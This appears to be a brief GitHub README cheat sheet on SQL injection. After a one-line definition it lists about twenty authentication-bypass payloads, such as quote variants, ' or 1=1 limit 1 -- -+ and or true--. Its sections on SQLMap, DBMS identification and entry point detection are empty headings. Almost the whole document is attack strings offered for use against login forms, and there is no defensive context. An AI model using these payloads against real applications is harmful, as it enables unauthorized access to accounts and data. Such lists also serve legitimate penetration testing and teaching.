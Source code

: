 # SQL Injection

A SQL injection attack consists of insertion or "injection" of a SQL query via the input data from the client to the application

## _Authentication Bypass_

'''
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--

'''

## _SQL Injection using SQLMap_

## _DBMS Identification_

## _Entry point detection_


# Thanks to and Reference
